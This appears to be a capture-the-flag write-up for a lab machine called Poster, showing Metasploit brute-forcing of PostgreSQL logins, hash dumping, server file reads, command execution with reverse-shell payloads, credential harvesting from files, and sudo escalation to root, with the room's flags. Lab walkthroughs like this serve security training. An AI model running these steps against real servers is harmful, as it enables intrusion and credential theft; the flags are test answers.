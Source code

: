 # Poster

---

![Untitled](Poster_images/Untitled.png)

---

# Enumeration

![Untitled](Poster_images/Untitled%201.png)

![Untitled](Poster_images/Untitled%202.png)

# Exploit

Use `msfconsole` to start **************Metasploit************** 

*After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?*

Use `search postgresql` to find all Modules which is used to exploit the ********************postgresql******************** service

![Untitled](Poster_images/Untitled%203.png)

Type `info <index number>` (`info 7`) for more detail about that module

```
Description:
This module attempts to authenticate against a PostgreSQL instance using username and password combinations indicated by the USER_FILE, PASS_FILE, and USERPASS_FILE options. Note that passwords may be either plaintext or MD5 formatted hashes.
```

As the **************************Description**************************, the right answer for the question is the module number **7**

Set `options` as the following and start to exploit

![Untitled](Poster_images/Untitled%204.png)

After exploiting, we got the credential of user `postgres`

![Untitled](Poster_images/Untitled%205.png)

```tsx
msf6 auxiliary(scanner/postgres/postgres_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 10.10.27.250:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.27.250:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.27.250:5432 - Login Successful: postgres:password@template1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

*What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?*

Type `back` to back to the previous state, search the modules again and use `info <number>` to view the detail of the module

![Untitled](Poster_images/Untitled%206.png)

```
Description:
This module will allow for simple SQL statements to be executed against a PostgreSQL instance given the appropriate credentials.
```

```
Name           Current Setting   Required  Description
----           ---------------   --------  -----------
SQL            select version()  no        The SQL query to execute
```

Use the module to get the version of the **********rdmbs**********

![Untitled](Poster_images/Untitled%207.png)

![Untitled](Poster_images/Untitled%208.png)

*What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?*

![Untitled](Poster_images/Untitled%209.png)

```
Description:
This module extracts the usernames and encrypted password hashes from a Postgres server and stores them for later cracking.
```

![Untitled](Poster_images/Untitled%2010.png)

![Untitled](Poster_images/Untitled%2011.png)

*What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?*

![Untitled](Poster_images/Untitled%2012.png)

```
Description:
This module imports a file local on the PostgreSQL Server into a temporary table, reads it, and then drops the temporary table. It requires PostgreSQL credentials with table CREATE privileges as well as read privileges to the target file.
```

![Untitled](Poster_images/Untitled%2013.png)

*What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?*

![Untitled](Poster_images/Untitled%2014.png)

```
Description:
Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with 'pg_execute_server_program' to pipe to and from an external program using COPY. This allows arbitrary command execution as though you have console access. This module attempts to create a new table, then execute system commands in the context of copying the command output into the table. This module should work on all Postgres systems running version 9.3 and above. For Linux & OSX systems, target 1 is used with cmd payloads such as: cmd/unix/reverse_perl For Windows Systems, target 2 is used with powershell payloads such as: cmd/windows/powershell_reverse_tcp Alternativly target 3 can be used to execute generic commands, such as a web_delivery meterpreter powershell payload or other customised command.
```

# Gain Access

![Untitled](Poster_images/Untitled%2015.png)

![Untitled](Poster_images/Untitled%2016.png)

Now we are connected to the target machine → Navigate to `/home` → Read the `credentials.txt` file → Become `dark` user

```tsx
$ cd /home
$ ls
alison  dark
$ cd dark
$ ls
credentials.txt
$ cat credentials.txt
dark:qwerty1234#!hackme
```

However, the ********dark******** user does not have much permission for further exploiting the machine → Try to gain access of another one

# Privilege Escalation → alision

Navigate to `/var/www/html` where the ************config************ file of the database is usually placed → Read the `config.php` file → Get the user **********alison**********’s password

```tsx
dark@ubuntu:/$ cd /var/www/html
dark@ubuntu:/var/www/html$ ls -la
total 16
drwxr-xr-x 3 root   root   4096 Jul 28  2020 .
drwxr-xr-x 3 root   root   4096 Jul 28  2020 ..
-rwxrwxrwx 1 alison alison  123 Jul 28  2020 config.php
drwxr-xr-x 4 alison alison 4096 Jul 28  2020 poster
dark@ubuntu:/var/www/html$ cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
?>
```

Escalate to user **************alision**************

```tsx
dark@ubuntu:/var/www/html$ su alison
Password: p4ssw0rdS3cur3!#

alison@ubuntu:/var/www/html$ id
uid=1000(alison) gid=1000(alison) groups=1000(alison),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Get the flag inside ****************alison****************’s directory

```tsx
alison@ubuntu:/var/www/html$ cd /home/alison
alison@ubuntu:~$ cat user.txt
THM{postgresql_fa1l_conf1gurat1on}
```

# Privilege Escalation → Root

```tsx
alison@ubuntu:~$ sudo -l
[sudo] password for alison: p4ssw0rdS3cur3!#

Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

User `alison` could execute every commands on the machine with `root` privilege → Simply type `sudo -i` to become `root` → Get the flag in `/root/root.txt`

```tsx
alison@ubuntu:~$ sudo -i
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd /root
root@ubuntu:~# ls -l  
total 4
-rw-r--r-- 1 root root 49 Jul 28  2020 root.txt
root@ubuntu:~# cat root.txt
**THM{c0ngrats_for_read_the_f1le_w1th_credent1als}**
```